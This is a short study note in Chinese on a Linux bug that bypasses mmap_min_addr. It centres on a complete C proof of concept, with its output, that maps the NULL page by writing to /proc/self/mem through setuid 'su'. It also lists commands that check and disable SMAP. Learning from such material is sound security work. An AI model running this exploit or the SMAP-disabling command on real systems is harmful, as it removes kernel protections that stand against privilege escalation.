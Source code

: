 ## 关键代码

```c
===============================================================
user@deb10:~/stackexpand$ cat nullmap.c 
#include <sys/mman.h>
#include <err.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

int main(void) {
  void *map = mmap((void*)0x10000, 0x1000, PROT_READ|PROT_WRITE,
                   MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
  if (map == MAP_FAILED) err(1, "mmap");
  int fd = open("/proc/self/mem", O_RDWR);
  if (fd == -1) err(1, "open");
  unsigned long addr = (unsigned long)map;
  while (addr != 0) {
    addr -= 0x1000;
    if (lseek(fd, addr, SEEK_SET) == -1) err(1, "lseek");
    char cmd[1000];
    sprintf(cmd, "LD_DEBUG=help su 1>&%d", fd);
    system(cmd);
  }
  system("head -n1 /proc/$PPID/maps");
  printf("data at NULL: 0x%lx\n", *(unsigned long *)0);
}
user@deb10:~/stackexpand$ gcc -o nullmap nullmap.c && ./nullmap 
00000000-00011000 rw-p 00000000 00:00 0 
data at NULL: 0x706f2064696c6156
user@deb10:~/stackexpand$ 
===============================================================
```

## 收获与积累
1. LD_DEBUG=help XXcommand (用作调试很有帮助)
2. 查看mmap_min_addr：
cat /proc/sys/vm/mmap_min_addr
3. 查看SMAP enabled or not：
cat /boot/config-4.15.0-29-generic | grep CONFIG_X86_SMAP
4. Check CPU support for SMAP
cat /proc/cpuinfo |grep -o smap
5. Check current status of SMAP on of kernel
cat /proc/cmdline |grep nosmap
6. Disable SMAP 
grubby --args="nosmap" --update-kernel=ALL


## 理解与思考
1. mmap映射奇怪参数组合（mmap_min_addr, fd=-1, flags=MAP_GROWSDOWN）可以映射成功。
2. 获取/proc/self/mem的句柄X后重定位文件指针，执行命令重定向STDOUT到X句柄，覆盖/proc/self/mem内容。
3. 循环执行2，直到文件指针为0。

思考：
1. 可否通过其他方式写入到/proc/self/mem？而不是调用命令
2. mmap映射的地址有什么要求？
3. 这个漏洞说是用户层绕过权限检查，搞清楚绕过原理。

